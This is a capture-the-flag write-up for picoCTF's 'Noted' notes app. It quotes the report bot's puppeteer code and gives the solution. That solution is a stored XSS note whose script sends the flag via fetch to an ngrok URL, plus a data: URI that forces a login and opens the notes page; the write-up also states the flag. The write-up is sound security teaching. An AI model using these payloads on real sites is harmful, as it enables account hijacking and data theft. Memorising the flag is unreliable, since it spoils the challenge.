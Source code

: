 # Noted

## Description

I made a nice web app that lets you take notes. I'm pretty sure I've followed all the best practices so its definitely secure right?
Note that the headless browser used for the "report" feature does **not** have access to the internet.

Hint 1: Are you *sure* I followed all the best practices?

Hint 2: There's more than just HTTP(S)!

Hint 3: Things that require user interaction normally in Chrome might not require it in Headless Chrome.

## Approach

This challenge took many attempts before I arrived at the correct solution. I attempted Javascript URIs, CSRF protection bypass, SOP bypass, and some XSS methods. 

This website allows the user to create notes, and includes a login system. Let's go over the rest of the website. Here's `report.js`:
```javascript
async function run(url) {
    let browser;

    try {
        module.exports.open = true;
        browser = await puppeteer.launch({
            headless: true,
            pipe: true,
            args: ['--incognito', '--no-sandbox', '--disable-setuid-sandbox'],
            slowMo: 10
        });

        let page = (await browser.pages())[0]

        await page.goto('http://0.0.0.0:8080/register');
        await page.type('[name="username"]', crypto.randomBytes(8).toString('hex'));
        await page.type('[name="password"]', crypto.randomBytes(8).toString('hex'));

        await Promise.all([
            page.click('[type="submit"]'),
            page.waitForNavigation({ waituntil: 'domcontentloaded' })
        ]);

        await page.goto('http://0.0.0.0:8080/new');
        await page.type('[name="title"]', 'flag');
        await page.type('[name="content"]', process.env.flag ?? 'ctf{flag}');

        await Promise.all([
            page.click('[type="submit"]'),
            page.waitForNavigation({ waituntil: 'domcontentloaded' })
        ]);

        await page.goto('about:blank')
        await page.goto(url);
        await page.waitForTimeout(7500);

        await browser.close();
    } catch(e) {
        console.error(e);
        try { await browser.close() } catch(e) {}
    }

    module.exports.open = false;
}
```
The report function uses puppeteer, an API that allows the automated control of the *headless, non-sandboxed* browser. This means that there is no human "admin" (although in a real world situation, there may be).

So, what happens when the user submits a link to the report page?
* Puppeteer creates a new account with a random username and password
* It creates a note under that new user, with the flag contained inside (process.env.flag)
* Only after this, does the bot open the URL that we provide through `/reports`

Originally, I planned to use Data/Javascript URIs to retrieve the account credentials, but this was not possible due to SOP. Also, the fetch API cannot be used due to CSRF tokens. It is important to note that the challenge creators mentioned that the headless browser did not have access to the internet; However, a couple of ports were open. Although this will not change the real solution, it will make exfiltration more streamlined. 

The idea is to create a note with a Javascript script embedded. Any user that opens the webpage will thus also execute the script. The script will contain the exfiltration process. Next, we can submit a Data URI forcing the headless browser to login to our account, then navigate to `/notes`. This will execute the note mentioned previously, allowing the retrieval of the flag. Here's the code:

Note:
```HTML
<script>let flagWindow = window.open('', 'flagWindow'); let flag = flagWindow.document.getElementsByTagName('p')[0].innerText; fetch('https://www.ngrok.io/link_here?flag='+flag);</script>
```

Report:
```
data:text/html,
<body>
  <form action="http://0.0.0.0:8080/login" method="POST" id="vuln" target="_blank">
    <input type="text" name="username" placeholder="username" value="arst">
    <br><br>
    <input type="password" name="password" placeholder="password" value="arst">
    <br><br>
    <input type="submit" value="Submit">
</form>
    <script>
        var w1 = window.open('http://0.0.0.0:8080/notes', 'flagWindow');
        vuln.submit();
    </script>
</body>
```

The note will exfiltrate to an "ngrok" website (you can use any web server you have) through a GET request, including in the parameters. When submitting the preceding URI through `/report`, we will receive a GET request, visible through ngrok's console: 

![Console](/ngrok.png)

Thus, the flag is: picoCTF{p00rth0s_parl1ment_0f_p3p3gas_386f0184}
